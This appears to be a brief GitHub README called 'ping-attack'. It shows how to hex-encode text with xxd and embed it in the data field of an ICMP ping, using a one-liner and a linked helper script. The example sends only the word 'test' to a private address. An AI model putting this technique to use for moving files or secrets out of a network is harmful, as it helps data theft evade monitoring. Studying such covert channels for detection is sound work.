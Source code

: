 # ping-attack

Basic Commands:

```shell
#!/bin/bash

#This will take the text "test" and convert to hex:
echo "test" | xxd -p

#output:
746573740a

#This will ping the ip address and add the hex of "test" into the data field
ping -c 1 192.168.1.5 -p 746573740a

```

or use the oneline script of:<br>
`ping -c 1 192.168.1.5 -p $(echo -n "test" | xxd -p)`

or use the scripts ping_payload1.sh located at:<br>
https://github.com/yen5004/ping-attack/blob/9aae89150817556d350d8b5587fc3f86cccddde3/ping_payload1.sh<br>
just pass the ip address and text
